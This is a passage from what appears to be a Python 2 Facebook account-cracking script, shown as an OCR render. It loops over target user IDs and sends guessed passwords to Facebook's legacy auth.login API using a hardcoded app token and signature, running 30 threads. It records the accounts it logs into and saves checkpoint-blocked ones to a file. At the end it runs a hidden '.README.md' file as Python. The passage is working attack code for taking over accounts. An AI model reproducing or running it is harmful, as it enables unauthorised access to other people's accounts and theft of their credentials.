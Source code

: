													data6 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q6 = json.loads(data6.text)
													if "access_token" in q6:
														print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass6
														oks.append(user+pass6)
													else:
														if "www.facebook.com" in q6["error_msg"]:
															print "[Checkpoint] " + user + " | " + pass6
															cps = open("checkpoint.txt", "a")
															cps.write(user+"|"+pass6+"\n")
															cps.close()
															cpb.append(user+pass6)
														else:
															data7 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q7 = json.loads(data7.text)
															if "access_token" in q7:
																print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass7
																oks.append(user+pass7)
															else:
																if "www.facebook.com" in q7["error_msg"]:
																	print "[Checkpoint] " + user + " | " + pass7
																	cps = open("checkpoint.txt", "a")
																	cps.write(user+"|"+pass7+"\n")
																	cps.close()
																	cpb.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print (40*"-")
	print ("[✓] Process Has Been Completed ....")
	print ("[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb)))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	print (40*"-")
	raw_input("\n[Back]")
	if xxx == "0":
		crack_menu()
	else:
		os.system("python2 .README.md")
		
		
		
###### RUN SCRIPT ######

if __name__ == "__main__":
	menu()
